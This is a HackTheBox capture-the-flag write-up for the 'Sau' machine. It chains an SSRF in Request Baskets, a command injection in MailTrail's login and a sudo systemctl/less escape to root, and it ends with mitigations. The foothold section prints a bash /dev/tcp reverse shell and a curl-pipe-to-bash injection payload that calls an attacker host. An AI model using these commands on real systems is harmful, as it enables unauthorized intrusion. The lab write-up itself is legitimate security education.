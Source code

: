 ```yaml
---
title: "HackTheBox - Sau"
author: Nasrallah
description: ""
date: 2024-01-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, ssrf, injection, command injection]
img_path: /assets/img/hackthebox/machines/sau
image:
    path: sau.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description:**

[Sau](https://app.hackthebox.com/machines/sau) from [HackTheBox](https://www.hackthebox.com), we find a website vulnerable to `ssrf` that we exploit to access a web app that's sitting behind a firewall, the web app is vulnerable to command injection giving us our foothold. For root we find a misconfigured sudo entry allowing us to drop a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.224                                              
Host is up (0.19s latency).          
Not shown: 997 closed tcp ports (reset)                                                                                                                       
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                       
| ssh-hostkey:                                                                 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)                           
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)                          
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)                        
80/tcp    filtered http                                                        
55555/tcp open     unknown                                                     
| fingerprint-strings:                                                                                                                                        
|   FourOhFourRequest:                                                         
|     HTTP/1.0 400 Bad Request                                                 
|     Content-Type: text/plain; charset=utf-8                             
|     X-Content-Type-Options: nosniff                                          
|     Date: Thu, 20 Jul 2023 10:03:32 GMT                                 
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPReques
```

We found two open ports: 22 and 55555. port 80 is filtered.

### Web

Let's navigate to the web page on port 55555.

![a](1.png)

This is `Request Baskets` version 1.2.1, it allows us to inspect HTTP requests.

Searching on google for this version reveals it's vulnerable to a [Server Side Request Forgery](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3). That's why there is a filtered port.

Let's first create a basket.

![a](2.png)

Now we open it.

![a](3.png)

The website gave us a link to make requests to, and it will show us on this page the HTTP requests made.

Let's go to `http://10.10.11.224:55555/4gngypw`

>The random string will be different on each basket created.

![a](4.png)

We can see the headers of our request.

The `SSRF` vulnerability can be exploited using the `Forward URL` option in the settings:

![a](5.png)

Since port 80 is filtered let's set the `Forward URL` to `http://127.0.0.1/` and check the `Proxy Response` option.

![a](6.png)

Now if let's request the url `http://10.10.11.224:55555/4gngypw`

![a](7.png)

We've successfully got the page of the website on port 80.

It shows that it's running `MailTrail (v0.53)`.

After some research we find that this version is vulnerable to an [OS Command Injection](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) during the login process

The proof of concept provided for this vulnerability is the following:

```bash
curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
```

## **Foothold**

We'll edit the command executed to a reverse shell.

First I'll host a bash script holding the following reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.90/9001 0>&1
```

The command I'll be executing will request this script and pips it's content to bash to get it executed and me receiving a shell.

```bash
curl 'http://10.10.11.224:55555/wswltbh/login' --data 'username=;`curl 10.10.17.90/shell.sh|bash`'
```

![a](8.png)

We got a shell as `puma`

## **Privilege Escalation**

Let's check our privileges:

```shell
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can check the status of the trail service.

![a](9.png)

One thing to notice here is the output is not printed fully and we're in a `less` interface, that's because our tty is not setup properly.

That was lucky for us, but if the sudo command printed the output normally without showing less, we can make our terminal smaller or change the stty setting with `stty rows 20 columns 50`.

It should also be mentioned that we need a full tty shell for this to run properly, so upgrade your shell if haven't already.

If go to GTFOBins we see that if we have a shell over `less` we can run `!/bin/bash` and get a root shell.

![a](10.png)

## **Prevention and Mitigation**

### SSRF

Update `Requests Basket` to the latest version.

### Command Injection

`Mail Trail` should be updated to the latest version.

### Systemctl

systemd before 247 does not adequately block local privilege escalation for some Sudo configurations, e.g., plausible sudoers files in which the "systemctl status" command may be executed. Specifically, systemd does not set LESSSECURE to 1, and thus other programs may be launched from the less program. This presents a substantial security risk when running systemctl from Sudo, because less executes as root when the terminal size is too small to show the complete systemctl output.

Set `LESSSECURE` environment variable to `1`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

## References

<https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3>

<https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/>

<https://bugzilla.redhat.com/show_bug.cgi?id=2175611>
